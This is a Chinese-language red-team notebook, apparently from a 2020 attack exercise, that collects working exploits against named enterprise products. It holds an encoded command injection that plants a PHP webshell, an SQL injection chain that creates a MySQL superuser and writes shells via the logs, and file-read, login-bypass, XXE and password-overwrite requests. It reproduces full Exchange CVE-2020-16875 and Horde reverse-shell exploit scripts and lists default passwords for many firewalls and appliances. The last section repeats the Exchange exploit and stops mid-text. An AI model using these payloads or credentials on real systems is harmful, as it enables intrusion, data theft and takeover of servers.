# 2020HVV记录
`@Time   : 2020/9/15 08:52`
`@Author : 852782749@qq.com`


```
开始编辑～
```
### 齐治堡垒机前台远程命令执行漏洞

> 漏洞利用：
>
> 利用条件：无需登录：
```angular2

第一
http://10.20.10.11/listener/cluster_manage.php 返回“OK”。
第二，执行以下链接即可 getshell，执行成功后，生成 PHP 一句话马
/var/www/shterm/resources/qrcode/lbj77.php 密码 10086，使用 BASE64 进行编码。这里假设 10.20.10.10 为堡垒机的 IP 地址。
```
```angular2
https://10.20.10.10/ha_request.php?action=install&ipaddr=10.20.10.11&node_id=1${I
FS}|`echo${IFS}"ZWNobyAnPD9waHAgQGV2YWwoJF9SRVFVRVNUWzEwMDg2XSk7Pz
4nPj4vdmFyL3d3dy9zaHRlcm0vcmVzb3VyY2VzL3FyY29kZS9sYmo3Ny5waHAK"|base64
${IFS}-d|bash`|${IFS}|echo${IFS}
```
> 特征：
>
> 漏洞利用点：
```angular2
https://10.20.10.10/ha_request.php
Poc 形式：
${IFS}|`echo${IFS}"ZWNobyAnPD9waHAgQGV2YWwoJF9SRVFVRVNUWzEwMDg2XSk7
Pz4nPj4vdmFyL3d3dy9zaHRlcm0vcmVzb3VyY2VzL3FyY29kZS9sYmo3Ny5waHAK"|base
64${IFS}-d|bash`|${IFS}|echo${IFS}
```

### 泛微OA云桥任意文件读取漏洞

> 利用/wxjsapi/saveYZJFile接口获取filepath,返回数据包内出现了程序的绝对路径,攻击者可以通过返回内容识别程序运行路径从而下载数据库配置文件危害可见。
>



> 未授权任意文件读取,`/wxjsapi/saveYZJFile`接口获取`filepath`,返回数据包内出现了程序的绝对路径,攻击者可以通过返回内容识别程序运行路径从而下载数据库配置文件危害可见。
>
> 1、`downloadUrl`参数修改成需要获取文件的绝对路径,记录返回包中的id值。


> 2、通过查看文件接口访问 `/file/fileNoLogin/id`


> 修复建议:
> 关闭程序路由 `/file/fileNoLogin`


### 多款Huawei产品越界读取漏洞


```angular2

```

### Exchange Server 远程代码执行漏洞（POC未验证）
> CVE-2020-16875: Exchange Server 远程代码执行漏洞（202009月度漏洞）
>
> ps 版POC：https://srcincite.io/pocs/cve-2020-16875.ps1.txt

```
# Microsoft Exchange Server DlpUtils AddTenantDlpPolicy Remote Code Execution Vulnerability
# Patch: https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2020-16875
#
# Notes:
#
# The (ab)user needs the "Data Loss Prevention" role assigned
# [PS] C:\Windows\system32>New-RoleGroup -Name "dlp users" -Roles "Data Loss Prevention" -Members "harrym"
# 
# Name      AssignedRoles          RoleAssignments                  ManagedBy
# ----      -------------          ---------------                  ---------
# dlp users {Data Loss Prevention} {Data Loss Prevention-dlp users} {exchangedemo.com/Microsoft Exchange Security Groups/Organization Management, exchangedemo.com/Users/test}
# 
# 
# [PS] C:\Windows\system32>Get-RoleGroup "dlp users" | Format-List
# 
# RunspaceId                  : 098e1140-30e3-4144-8028-2174fdb43b85
# ManagedBy                   : {exchangedemo.com/Microsoft Exchange Security Groups/Organization Management, exchangedemo.com/Users/test}
# RoleAssignments             : {Data Loss Prevention-dlp users}
# Roles                       : {Data Loss Prevention}
# DisplayName                 :
# ExternalDirectoryObjectId   :
# Members                     : {exchangedemo.com/Users/Harry Mull}
# SamAccountName              : dlp users
# Description                 :
# RoleGroupType               : Standard
# LinkedGroup                 :
# Capabilities                : {}
# LinkedPartnerGroupId        :
# LinkedPartnerOrganizationId :
# Identity                    : exchangedemo.com/Microsoft Exchange Security Groups/dlp users
# IsValid                     : True
# ExchangeVersion             : 0.10 (14.0.100.0)
# Name                        : dlp users
# DistinguishedName           : CN=dlp users,OU=Microsoft Exchange Security Groups,DC=exchangedemo,DC=com
# Guid                        : fa5c8458-8255-4ffd-b128-2a66bf9dbfd6
# ObjectCategory              : exchangedemo.com/Configuration/Schema/Group
# ObjectClass                 : {top, group}
# WhenChanged                 : 6/12/2020 11:29:31 PM
# WhenCreated                 : 6/12/2020 11:29:31 PM
# WhenChangedUTC              : 6/12/2020 3:29:31 PM
# WhenCreatedUTC              : 6/12/2020 3:29:31 PM
# OrganizationId              :
# Id                          : exchangedemo.com/Microsoft Exchange Security Groups/dlp users
# OriginatingServer           : DEAD01.exchangedemo.com
# ObjectState                 : Changed
#
# Example:
#
# PS C:\Users\researcher> .\poc.ps1 -server WIN-0K4AOM2JIN6.exchangedemo.com -usr harrym@exchangedemo.com -pwd user123### -cmd mspaint
# (+) targeting WIN-0K4AOM2JIN6.exchangedemo.com with harrym@exchangedemo.com:user123###
# (+) executed mspaint as SYSTEM!
# PS C:\Users\researcher>

param (
    [Parameter(Mandatory=$true)][string]$server,
    [Parameter(Mandatory=$true)][string]$usr,
    [Parameter(Mandatory=$true)][string]$pwd,
    [string]$cmd = "mspaint"
)

Function Get-RandomAlphanumericString {
    [CmdletBinding()]
    Param (
        [int] $length = 8
    )
    Process{
        Write-Output ( -join ((0x30..0x39) + ( 0x41..0x5A) + ( 0x61..0x7A) | Get-Random -Count $length  | % {[char]$_}) )
    }	
}

function Exploit-Exchange {
    Param (
        [string] $server,
        [string] $usr,
        [string] $pwd,
        [string] $cmd
    )
    "(+) targeting $server with ${usr}:$pwd"
    $securepwd = ConvertTo-SecureString $pwd -AsPlainText -Force
    $creds = New-Object System.Management.Automation.PSCredential -ArgumentList ($usr, $securepwd)
    $s = New-PSSession -ConfigurationName Microsoft.Exchange -ConnectionUri http://$server/PowerShell/ -Authentication Kerberos -Credential $creds

    $xml = @"
<dlpPolicyTemplates>
  <dlpPolicyTemplate id="F7C29AEC-A52D-4502-9670-141424A83FAB" mode="Audit" state="Enabled" version="15.0.2.0">
    <contentVersion>4</contentVersion>
    <publisherName>si</publisherName>
    <name>
      <localizedString lang="en"></localizedString>
    </name>
    <description>
      <localizedString lang="en"></localizedString>
    </description>
    <keywords></keywords>
    <ruleParameters></ruleParameters>
    <policyCommands>
      <commandBlock>
        <![CDATA[ `$i=New-object System.Diagnostics.ProcessStartInfo;`$i.UseShellExecute=`$true;`$i.FileName="cmd";`$i.Arguments="/c $cmd";`$r=New-Object System.Diagnostics.Process;`$r.StartInfo=`$i;`$r.Start() ]]>
      </commandBlock>
    </policyCommands>
    <policyCommandsResources></policyCommandsResources>
  </dlpPolicyTemplate>
</dlpPolicyTemplates>"@

    $n = Get-RandomAlphanumericString
    [Byte[]]$d = [System.Text.Encoding]::UTF8.GetBytes($xml)
    Invoke-Command -Session $s -ScriptBlock {
        New-DlpPolicy -Name $Using:n -TemplateData $Using:d 
    } | Out-Null
    "(+) executed $cmd as SYSTEM!"	
}

Get-PSSession | Remove-PSSession
Exploit-Exchange -server $server -usr $usr -pwd $pwd -cmd $cmd
```

> py 版POC：https://srcincite.io/pocs/cve-2020-16875.py.txt

```angular2
#!/usr/bin/env python3
"""
Microsoft Exchange Server DlpUtils AddTenantDlpPolicy Remote Code Execution Vulnerability
Patch: https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2020-16875

# Notes:

The (ab)user needs the "Data Loss Prevention" role assigned and if performing the attack over the ecp interface (this poc) then the user will need an active mailbox.

[PS] C:\Windows\system32>New-RoleGroup -Name "dlp users" -Roles "Data Loss Prevention" -Members "harrym"
 
Name      AssignedRoles          RoleAssignments                  ManagedBy
----      -------------          ---------------                  ---------
dlp users {Data Loss Prevention} {Data Loss Prevention-dlp users} {exchangedemo.com/Microsoft Exchange Security Groups/Organization Management, exchangedemo.com/Users/test}

[PS] C:\Windows\system32>Get-RoleGroup "dlp users" | Format-List

RunspaceId                  : 098e1140-30e3-4144-8028-2174fdb43b85
ManagedBy                   : {exchangedemo.com/Microsoft Exchange Security Groups/Organization Management, exchangedemo.com/Users/test}
RoleAssignments             : {Data Loss Prevention-dlp users}
Roles                       : {Data Loss Prevention}
DisplayName                 :
ExternalDirectoryObjectId   :
Members                     : {exchangedemo.com/Users/Harry Mull}
SamAccountName              : dlp users
Description                 :
RoleGroupType               : Standard
LinkedGroup                 :
Capabilities                : {}
LinkedPartnerGroupId        :
LinkedPartnerOrganizationId :
Identity                    : exchangedemo.com/Microsoft Exchange Security Groups/dlp users
IsValid                     : True
ExchangeVersion             : 0.10 (14.0.100.0)
Name                        : dlp users
DistinguishedName           : CN=dlp users,OU=Microsoft Exchange Security Groups,DC=exchangedemo,DC=com
Guid                        : fa5c8458-8255-4ffd-b128-2a66bf9dbfd6
ObjectCategory              : exchangedemo.com/Configuration/Schema/Group
ObjectClass                 : {top, group}
WhenChanged                 : 6/12/2020 11:29:31 PM
WhenCreated                 : 6/12/2020 11:29:31 PM
WhenChangedUTC              : 6/12/2020 3:29:31 PM
WhenCreatedUTC              : 6/12/2020 3:29:31 PM
OrganizationId              :
Id                          : exchangedemo.com/Microsoft Exchange Security Groups/dlp users
OriginatingServer           : DEAD01.exchangedemo.com
ObjectState                 : Changed

# Example:

researcher@incite:~$ ./poc.py
(+) usage: ./poc.py <target> <user:pass> <cmd>
(+) eg: ./poc.py 192.168.75.142 harrym@exchangedemo.com:user123### mspaint

researcher@incite:~$ ./poc.py 192.168.75.142 harrym@exchangedemo.com:user123### mspaint
(+) logged in as harrym@exchangedemo.com
(+) found the __viewstate: /wEPDwUILTg5MDAzMDFkZFAeyPS7/eBJ4lPNRNPBjm8QiWLWnirQ1vsGlSyjVxa5
(+) executed mspaint as SYSTEM!
"""

import re
import sys
import random
import string
import urllib3
import requests
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

def random_string(str_len=8):
    letters = string.ascii_lowercase
    return ''.join(random.choice(letters) for i in range(str_len))

def get_xml(c):
    return """<?xml version="1.0" encoding="UTF-8"?>
<dlpPolicyTemplates>
  <dlpPolicyTemplate id="F7C29AEC-A52D-4502-9670-141424A83FAB" mode="Audit" state="Enabled" version="15.0.2.0">
    <contentVersion>4</contentVersion>
    <publisherName>si</publisherName>
    <name>
      <localizedString lang="en"></localizedString>
    </name>
    <description>
      <localizedString lang="en"></localizedString>
    </description>
    <keywords></keywords>
    <ruleParameters></ruleParameters>
    <policyCommands>
      <commandBlock>
        <![CDATA[ $i=New-object System.Diagnostics.ProcessStartInfo;$i.UseShellExecute=$true;$i.FileName="cmd";$i.Arguments="/c %s";$r=New-Object System.Diagnostics.Process;$r.StartInfo=$i;$r.Start() ]]>
      </commandBlock>
    </policyCommands>
    <policyCommandsResources></policyCommandsResources>
  </dlpPolicyTemplate>
</dlpPolicyTemplates>""" % c

def trigger_rce(t, s, vs, cmd):
    f = {
        '__VIEWSTATE': (None, vs),
        'ctl00$ResultPanePlaceHolder$senderBtn': (None, "ResultPanePlaceHolder_ButtonsPanel_btnNext"),
        'ctl00$ResultPanePlaceHolder$contentContainer$name': (None, random_string()),
        'ctl00$ResultPanePlaceHolder$contentContainer$upldCtrl': ("dlprce.xml", get_xml(cmd)),
    }
    r = s.post("https://%s/ecp/DLPPolicy/ManagePolicyFromISV.aspx" % t, files=f, verify=False)
    assert r.status_code == 200, "(-) failed to trigger rce!"

def leak_viewstate(t, s):
    r = s.get("https://%s/ecp/DLPPolicy/ManagePolicyFromISV.aspx" % t, verify=False)
    match = re.search("<input type=\"hidden\" name=\"__VIEWSTATE\" id=\"__VIEWSTATE\" value=\"(.*)\" />", r.text)
    assert match != None, "(-) couldn't leak the __viewstate!"
    return match.group(1)
    
def log_in(t, usr, pwd):
    s = requests.Session()
    d = {
        "destination" : "https://%s/owa" % t,
        "flags" : "",
        "username" : usr,
        "password" : pwd
    }
    s.post("https://%s/owa/auth.owa" % t, data=d, verify=False)
    assert s.cookies.get(name='X-OWA-CANARY') != None, "(-) couldn't leak the csrf canary!"
    return s

def main(t, usr, pwd, cmd):
    s = log_in(t, usr, pwd)
    print("(+) logged in as %s" % usr)
    vs = leak_viewstate(t, s)
    print("(+) found the __viewstate: %s" % vs)
    trigger_rce(t, s, vs, cmd)
    print("(+) executed %s as SYSTEM!" % cmd)

if __name__ == '__main__':
    if len(sys.argv) != 4:
        print("(+) usage: %s <target> <user:pass> <cmd>" % sys.argv[0])
        print("(+) eg: %s 192.168.75.142 harrym@exchangedemo.com:user123### mspaint" % sys.argv[0])
        sys.exit(-1)
    trgt = sys.argv[1]
    assert ":" in sys.argv[2], "(-) you need a user and password!"
    usr = sys.argv[2].split(":")[0]
    pwd = sys.argv[2].split(":")[1]
    cmd = sys.argv[3]
    main(trgt, usr, pwd, cmd)
```

# 20200915

> 参考链接
> https://mp.weixin.qq.com/s/nObHoQWes9f__NoBJaY0qQ
### 通达OA任意用户登录

1、首先访问 `/ispirit/login_code.php` 获取 `codeuid`。

2、访问 `/general/login_code_scan.php` 提交 `post` 参数：
`uid=1&codeuid={9E908086-342B-2A87-B0E9-E573E226302A}`



>3、最后访问 `/ispirit/login_code_check.php?codeuid=xxx`这样 `$_SESSION` 里就有了登录的信息了。

### 通达OA v11.7 后台SQL注入(后面有个简化版 413行)


> 测试版本：通达OA v11.7版本
>
> 限制条件：需要账号登录

> 注入出现在`general/hr/manage/query/delete_cascade.php`文件中，代码实现如下


> 首先判断`$condition_cascade`是否为空，如果不为空，则将其中的`\'`替换为`'`。为什么要这样替换呢，主要是因为V11.7版本中，注册变量时考虑了安全问题，将用户输入的字符用`addslashes`函数进行保护，如下：
`inc/common.inc.php`代码



> 因为是无回显机制，是盲注，所以尝试`(select 1 from (select sleep(5))a)`，结果没那么简单：



> 触发了通达OA的过滤机制，翻看代码，在`inc/conn.php`文件中找到过滤机制如下:



> 其过滤了一些字符，但是并非无法绕过，盲注的核心是：`substr、if`等函数，均未被过滤，所以还是有机会的。
传入错误的SQL语句时，页面出错：



> 那么只要构造MySQL报错即可配合if函数进行盲注了，翻看局外人师傅在补天白帽大会上的分享，发现`power(9999,99)`也可以使数据库报错，所以构造语句：
```angular2
select if((substr(user(),1,1)='r'),1,power(9999,99)) # 当字符相等时，不报错，错误时报错
```


### 构造利用链
> 添加用户：

```angular2
grant all privileges ON mysql.* TO 'at666'@'%' IDENTIFIED BY 'abcABC@123' WITH GRANT OPTION
```



> 然后该用户是对mysql数据库拥有所有权限的,然后给自己加权限：

```angular2
UPDATE `mysql`.`user` SET `Password` = '*DE0742FA79F6754E99FDB9C8D2911226A5A9051D', `Select_priv` = 'Y', `Insert_priv` = 'Y', `Update_priv` = 'Y', `Delete_priv` = 'Y', `Create_priv` = 'Y', `Drop_priv` = 'Y', `Reload_priv` = 'Y', `Shutdown_priv` = 'Y', `Process_priv` = 'Y', `File_priv` = 'Y', `Grant_priv` = 'Y', `References_priv` = 'Y', `Index_priv` = 'Y', `Alter_priv` = 'Y', `Show_db_priv` = 'Y', `Super_priv` = 'Y', `Create_tmp_table_priv` = 'Y', `Lock_tables_priv` = 'Y', `Execute_priv` = 'Y', `Repl_slave_priv` = 'Y', `Repl_client_priv` = 'Y', `Create_view_priv` = 'Y', `Show_view_priv` = 'Y', `Create_routine_priv` = 'Y', `Alter_routine_priv` = 'Y', `Create_user_priv` = 'Y', `Event_priv` = 'Y', `Trigger_priv` = 'Y', `Create_tablespace_priv` = 'Y', `ssl_type` = '', `ssl_cipher` = '', `x509_issuer` = '', `x509_subject` = '', `max_questions` = 0, `max_updates` = 0, `max_connections` = 0, `max_user_connections` = 0, `plugin` = 'mysql_native_password', `authentication_string` = '', `password_expired` = 'Y' WHERE `Host` = Cast('%' AS Binary(1)) AND `User` = Cast('at666' AS Binary(5));
```


> 然后用注入点刷新权限，因为该用户是没有刷新权限的权限的:`general/hr/manage/query/delete_cascade.php?condition_cascade=flush privileges;`这样就拥有了所有权限。再次登录：



> 提示这个，或者让改密码死活改不了。再执行一下`grant all privileges ON mysql.* TO 'at666'@'%' IDENTIFIED BY 'abcABC@123' WITH GRANT OPTION`即可


> 写shell
```angular2
# 查路径：
select @@basedir; # c:\td0a117\mysql5\，那么web目录就是c:\td0a117\webroot\
# 方法1：
set global slow_query_log=on;
set global slow_query_log_file='C:/td0a117/webroot/tony.php';
select '<?php eval($_POST[x]);?>' or sleep(11);
# 方法2：
set global general_log = on;
set global general_log_file = 'C:/td0a117/webroot/tony2.php';
select '<?php eval($_POST[x]);?>';
show variables like '%general%';
```



> 简化版

```angular2
利用条件:需要登录权限,文章作者给出了利用链注入加mysql权限,又是写木马的。确实用起来很舒服。
/general/hr/manage/query/delete_cascade.php?condition_cascade=
select%20if((substr(user(),1,1)=%27r%27),1,power(9999,99))
1、添加一个mysql用户
grant all privileges ON mysql.* TO 'ateam666'@'%' IDENTIFIED BY 'abcABC@123' WITH GRANT OPTION

2、给创建的ateam666账户添加mysql权限。
UPDATE `mysql`.`user` SET `Password` = '*DE0742FA79F6754E99FDB9C8D2911226A5A9051D', `Select_priv` = 'Y', `Insert_priv` = 'Y', `Update_priv` = 'Y', `Delete_priv` = 'Y', `Create_priv` = 'Y', `Drop_priv` = 'Y', `Reload_priv` = 'Y', `Shutdown_priv` = 'Y', `Process_priv` = 'Y', `File_priv` = 'Y', `Grant_priv` = 'Y', `References_priv` = 'Y', `Index_priv` = 'Y', `Alter_priv` = 'Y', `Show_db_priv` = 'Y', `Super_priv` = 'Y', `Create_tmp_table_priv` = 'Y', `Lock_tables_priv` = 'Y', `Execute_priv` = 'Y', `Repl_slave_priv` = 'Y', `Repl_client_priv` = 'Y', `Create_view_priv` = 'Y', `Show_view_priv` = 'Y', `Create_routine_priv` = 'Y', `Alter_routine_priv` = 'Y', `Create_user_priv` = 'Y', `Event_priv` = 'Y', `Trigger_priv` = 'Y', `Create_tablespace_priv` = 'Y', `ssl_type` = '', `ssl_cipher` = '', `x509_issuer` = '', `x509_subject` = '', `max_questions` = 0, `max_updates` = 0, `max_connections` = 0, `max_user_connections` = 0, `plugin` = 'mysql_native_password', `authentication_string` = '', `password_expired` = 'Y' WHERE `Host` = Cast('%' AS Binary(1)) AND `User` = Cast('ateam666' AS Binary(5));
3、刷新数据库就可以登录到数据库啦。
/general/hr/manage/query/delete_cascade.php?condition_cascade=flush privileges;
4、通达OA配置mysql默认是不开启外网访问的所以需要修改mysql授权登录。
/general/hr/manage/query/delete_cascade.php?condition_cascade=
grant all privileges ON mysql.* TO 'ateam666'@'%' IDENTIFIED BY 'abcABC@123' WITH GRANT OPTION
5、接下来就是考验mysql提权功底的时候啦 233...
```

### Apache DolphinScheduler权限覆盖漏洞[CVE-2020-13922]

> 大概就长这个样子,默认密码[Apache DolphinScheduler: admin/dolphinscheduler]有写到。

```angular2
POST /dolphinscheduler/users/update
id=1&userName=admin&userPassword=Password1!&tenantId=1&email=sdluser%40sdluser.sdluser&phone=
```



### 齐治堡垒机远程代码执行
> 据说还是另外一个版本是java的。

```angular2
POST /shterm/listener/tui_update.php

a=["t';import os;os.popen('whoami')#"]
```


### 绿盟安全产品默认密码排查列表

```angular2
IPS入侵防御系统、SAS­H运维安全管理系统、SAS安全审计系统、DAS数据库审计系统、RSAS远程安全评估系统、WAF WEB应用防护系统
sysauditor/sysauditor
sysmanager/sysmanager
supervisor/supervisor
maintainer/maintainer
webpolicy/webpolicy
sysadmin/sysadmin
conadmin/conadmin
supervis/supervis
webaudit/webaudit
sysadmin/sysadmin
conadmin/nsfocus
weboper/weboper
auditor/auditor
weboper/weboper
nsadmin/nsadmin
admin/nsfocus
admin/admin
shell/shell
```

### Apache Cocoon XML注入 [CVE-2020-11991]

> 来源:http://mail-archives.apache.org/mod_mbox/cocoon-users/202009.mbox/author

>程序使用了StreamGenerator这个方法时,解析从外部请求的xml数据包未做相关的限制,恶意用户就可以构造任意的xml表达式,使服务器解析达到XML注入的安全问题。

```angular2
1、漏洞利用条件有限必须是apacheCocoon且使用了StreamGenerator,也就是说只要传输的数据被解析就可以实现了。

2、为了大饱眼福老大哥们,小编自己写了整了一个环境。
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
<userInfo>
<firstName>John</firstName> 
<lastName>&ent;</lastName>
</userInfo>
```


### Horde Groupware Webmail Edition 远程命令执行

> 来源: https://srcincite.io/pocs/zdi-20-1051.py.txt

```angular2
#!/usr/bin/env python3
"""
Horde Groupware Webmail Edition Sort sortpref Deserialization of Untrusted Data Remote Code Execution Vulnerability

Identifiers: ZDI-CAN-10436 / ZDI-20-1051
Found by ..: mr_me
Tested on .: Horde Groupware Webmail 5.2.22 (pear installation) on Debian 9 Stretch w/ Apache/2.4.25 & PHP 7.0.33

Summary:
========

It's possible to reach a deserialization of untrusted data vulnerability within the constructor of the IMP_Prefs_Sort class. A low privileged authenticated attacker can leverage this to achieve remote code execution.

Example:
========

saturn:~ mr_me$ ./poc.py 
(+) usage ./poc.py <target> <path> <user:pass> <connectback:port>
(+) eg: ./poc.py 172.16.175.148 /horde/ hordeuser:pass123 172.16.175.1:1337

saturn:~ mr_me$ ./poc.py 172.16.175.148 /horde/ hordeuser:pass123 172.16.175.1:1337
(+) targeting http://172.16.175.145/horde/
(+) obtained session iefankvohbl8og0mtaadm3efb6
(+) inserted our php object
(+) triggering deserialization...
(+) starting handler on port 1337
(+) connection from 172.16.175.145
(+) pop thy shell!
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
pwd
/var/www/horde/services
uname -a
Linux target 4.9.0-11-amd64 #1 SMP Debian 4.9.189-3+deb9u1 (2019-09-20) x86_64 GNU/Linux
exit
*** Connection closed by remote host ***
(+) repaired the target!
"""

import re
import sys
import socket
import requests
import telnetlib
import base64
from threading import Thread

def rs(cbh, cbp):
    return """@error_reporting(-1);
@set_time_limit(0); 
@ignore_user_abort(1);
$dis=@ini_get('disable_functions');
if(!empty($dis)){
    $dis=preg_replace('/[, ]+/', ',', $dis);
    $dis=explode(',', $dis);
    $dis=array_map('trim', $dis);
}else{
    $dis=array();
}
$ipaddr='%s';
$port=%d;
function PtdSlhY($c){
    global $dis; 
    if (FALSE !== strpos(strtolower(PHP_OS), 'win' )) {
        $c=$c." 2>&1\\n";
    }
    ob_start();
    system($c);
    $o=ob_get_contents();
    ob_end_clean();
    if (strlen($o) === 0){
        $o = "NULL";
    }
    return $o;
}
$nofuncs='no exec functions';
$s=@fsockopen("tcp://$ipaddr",$port);
while($c=fread($s,2048)){
    $out = '';
    if(substr($c,0,3) == 'cd '){
        chdir(substr($c,3,-1));
    }else if (substr($c,0,4) == 'quit' || substr($c,0,4) == 'exit') {
        break;
    }else{
        $out=PtdSlhY(substr($c,0,-1));
        if($out===false){
            fwrite($s, $nofuncs);
            break;
        }
    }
    fwrite($s,$out);
}
fclose($s);""" % (cbh, cbp)

def get_session(t, p, usr, pwd):
    uri = "http://%s%slogin.php" % (t, p)
    p = {
        "login_post" : 1337,
        "horde_user" : usr,
        "horde_pass" : pwd
    }
    r = requests.post(uri, data=p, allow_redirects=False)
    match = re.findall("Horde=(.{26});", r.headers['set-cookie'])
    assert len(match) == 2, "(-) failed to login"
    return match[1]

def trigger_deserialization(t, p, s, host, port):
    """ Object instantiation to reach the deserialization """
    handlerthr = Thread(target=handler, args=(port,))
    handlerthr.start()
    uri = "http://%s%sservices/ajax.php/imp/imple" % (t, p)
    p = {
        "imple" : "IMP_Prefs_Sort",
        "app" : "imp",
    }
    h = { "cmd" : base64.b64encode(rs(host, port).encode()) }
    c = { "Horde" : s }
    r = requests.get(uri, params=p, cookies=c, headers=h)
    match = re.search("horde_logout_token=(.*)&", r.text)
    assert match, "(-) failed to leak the horde_logout_token!"
    p['token'] = match.group(1)
    r = requests.get(uri, params=p, cookies=c, headers=h)
    assert r.status_code == 200, "(-) failed to trigger deserialization!"

def get_pop():
    """ An updated pop chain """
    pop  = 'O:34:"Horde_Kolab_Server_Decorator_Clean":2:{'
    pop += 'S:43:"\\00Horde_Kolab_Server_Decorator_Clean\\00_server";O:20:"Horde_Prefs_Identity":3:{'
    pop += 'S:9:"\\00*\\00_prefs";O:11:"Horde_Prefs":2:{'
    pop += 'S:8:"\\00*\\00_opts";a:1:{'
    pop += 's:12:"sizecallback";a:2:{i:0;O:12:"Horde_Config":1:{'
    pop += 'S:13:"\\00*\\00_oldConfig";s:44:"eval(base64_decode($_SERVER[HTTP_CMD]));die;";'
    pop += '}i:1;s:13:"readXMLConfig";}}'
    pop += 'S:10:"\\00*\\00_scopes";a:1:{'
    pop += 's:5:"horde";C:17:"Horde_Prefs_Scope":10:{[null,[1]]}}}'  # implements Serializable using custom unserialize/serialize
    pop += 'S:13:"\\00*\\00_prefnames";a:1:{s:10:"identities";i:0;}'
    pop += 'S:14:"\\00*\\00_identities";a:1:{i:0;i:0;}}'             # additional checks
    pop += 'S:42:"\\00Horde_Kolab_Server_Decorator_Clean\\00_added";a:1:{i:0;i:0;}}'
    return pop

def get_patch():
    """ Our original array """
    patch  = 'a:1:{'
    patch += 's:5:"INBOX";a:1:{'
    patch += 's:1:"b";i:6;'
    patch += '}}'
    return patch

def set_pref(t, p, s, k, o):
    """ A primitive that inserts a string into the database """
    uri = "http://%s%sservices/ajax.php/imp/setPrefValue" % (t, p)
    p = {
        "pref" : k,
        "value" : o,
    }
    c = { "Horde" : s }
    r = requests.get(uri, params=p, cookies=c)
    match = re.search("horde_logout_token=(.*)&", r.text)
    assert match, "(-) failed to leak the horde_logout_token!"
    p['token'] = match.group(1)
    r = requests.get(uri, params=p, cookies=c)
    assert ("\"response\":true" in r.text and r.status_code == 200), "(-) failed to set the preference!"

def handler(lport):
    print("(+) starting handler on port %d" % lport)
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(("0.0.0.0", lport))
    s.listen(1)
    conn, addr = s.accept()
    print("(+) connection from %s" % addr[0])
    t.sock = conn
    print("(+) pop thy shell!")
    t.interact()

def fix_path(p):
    if p == "/":
        return p
    if not p.startswith("/"):
        p = "/%s" % p
    if not p.endswith("/"):
        p = "%s/" % p
    return p

def main():
    if len(sys.argv) < 5:
        print("(+) usage %s <target> <path> <user:pass> <connectback:port>" % sys.argv[0])
        print("(+) eg: %s 172.16.175.148 /horde/ hordeuser:pass123 172.16.175.1:1337" % sys.argv[0])
        sys.exit(0)
    target = sys.argv[1]
    path   = fix_path(sys.argv[2])
    user   = sys.argv[3].split(":")[0]
    pswd   = sys.argv[3].split(":")[1]
    host   = sys.argv[4].split(":")[0]
    port   = int(sys.argv[4].split(":")[1])
    print("(+) targeting http://%s%s" % (target, path))
    session = get_session(target, path, user, pswd)
    print("(+) obtained session %s" % session)
    set_pref(target, path, session, 'sortpref', get_pop())
    print("(+) inserted our php object")
    print("(+) triggering deserialization...")
    trigger_deserialization(target, path, session, host, port)
    set_pref(target, path, session, 'sortpref', get_patch())
    print("(+) repaired the target!")

if __name__ == "__main__":
    main()
```
```angular2
saturn:~$./poc.py 172.16.175.148/horde/ hordeuser:pass123 172.16.175.145
(+) targeting http://172.16.175.145/horde/
(+) obtained session iefankvohbl8og0mtaadm3efb6
(+) inserted our php object
(+) triggering deserialization...
(+) starting handler on port 1337
(+) connection from 172.16.175.145
(+) pop thy shell!
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
pwd
/var/www/horde/services
```

### 泛微云桥任意文件读取升级玩法
> 1、简单说说昨天泛微云桥的报告,输入文件路径->读取文件内容,我们读了一下代码后发现这还能读取文件目录。
> 
> 2、参数不填写绝对路径写进文本内容就是当前的目录,产生了一个新的漏洞 “目录遍历”
`/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///D:/&fileExt=txt`

> 目录遍历+文件读取,我们能做的事情就很多了,比如读取管理员在桌面留下的密码文件、数据库配置文件、nginx代理配置、访问日志、D盘迅雷下载
>

```angular2
d://ebridge//tomcat//webapps//ROOT//WEB-INF//classes//init.properties
d:/OA/tomcat8/webapps/OAMS/WEB-INF/classes/dbconfig.properties 泛微OA数据库
```



### 安全设备弱密码排查列表
```angular2
天融信防火墙 用户名:superman 密码:talent
天融信防火墙 用户名:superman 密码:talent!23 
联想网御防火墙 用户名:admin 密码:leadsec@7766、administrator、bane@7766
深信服防火墙 用户名：admin 密码：admin
启明星辰 用户名：admin 密码：bane@7766 用户名：admin 密码：admin@123
juniper 用户名:netscreen 密码:netscreen
Cisco 用户名:admin 密码:cisco
Huawei 用户名:admin 密码:Admin@123 
H3C 用户名:admin 密码:admin
绿盟IPS 用户名: weboper 密码: weboper
网神防火墙GE1 用户名：admin 密码：firewall
深信服VPN：51111端口   密码:delanrecover
华为VPN：账号：root  密码：mduadmin
华为防火墙：admin   密码:Admin@123    
EudemonJuniper防火墙：netscreen    netscreen
迪普 192.168.0.1 默认的用户名和密码（admin/admin_default)
山石 192.168.1.1 默认的管理账号为hillstone，密码为hillstone
安恒的明御防火墙 admin/adminadmin
某堡垒机 shterm/shterm
天融信的vpn test/123456
```

### 宝塔面板phpMyadmin未授权访问

> 前段时间在朋友圈和微信群里火热不行的宝塔数据库面板未授权无需登录,以下是存在安全问题的版本。
```angular2
- Linux正式版7.4.2
- Linux测试版7.5.13
- Windows正式版6.8
```
> 1、宝塔默认phpMyadmin端口就是888 而这个漏洞排查方式极其简单 `172.10.0.121:888/pma`
> 2、如果宝塔是存在安全问题的版本,那就会直接出现phpMyadmin面板页面。


### CVE-2020-16875: Exchange Server 远程代码执行漏洞

> 更新公告:`https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-16875`
> 
> 微软公告说的很明显,只需要一个Exchange用户账号。就能在Exchange服务器上执行任意命令。

> `https://srcincite.io/pocs/cve-2020-16875.py.txt`
>
```angular2
#!/usr/bin/env python3
"""
Microsoft Exchange Server DlpUtils AddTenantDlpPolicy Remote Code Execution Vulnerability
Patch: https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2020-16875

# Notes:

The (ab)user needs the "Data Loss Prevention" role assigned and if performing the attack over the ecp interface (this poc) then the user will need an active mailbox.

